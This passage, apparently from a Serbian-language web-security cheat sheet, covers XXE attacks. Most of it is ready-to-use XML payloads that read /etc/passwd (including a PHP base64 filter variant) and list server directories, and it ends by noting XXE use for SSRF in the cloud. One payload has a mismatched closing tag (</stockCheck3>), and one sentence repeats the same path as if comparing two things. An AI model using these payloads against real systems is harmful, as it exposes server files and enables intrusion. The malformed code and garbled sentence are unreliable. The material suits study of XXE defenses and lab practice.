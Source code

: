 ### Čitanje fajla

Pokušajmo da pročitamo `/etc/passwd` na različite načine. Za Windows možete pokušati da pročitate: `C:\windows\system32\drivers\etc\hosts`

U ovom prvom slučaju, obratite pažnju da će "_\*\*file:///\*\*etc/passwd_" takođe raditi za sistem "_\*\*file:///\*\*etc/passwd_".

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

Ovaj drugi slučaj može biti koristan za izvlačenje fajla ako web server koristi PHP (Nije slučaj Portswiggers labova)

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

U ovom trećem slučaju primetite da deklarišemo `Element stockCheck` kao ANY

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>
```

### Listing direktorijuma

U **Java** baziranim aplikacijama moguće je **izlistati sadržaj direktorijuma** putem XXE sa payload-om poput (samo traženje direktorijuma umesto fajla):

```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

XXE može biti korišćen za zloupotrebu SSRF unutar oblaka
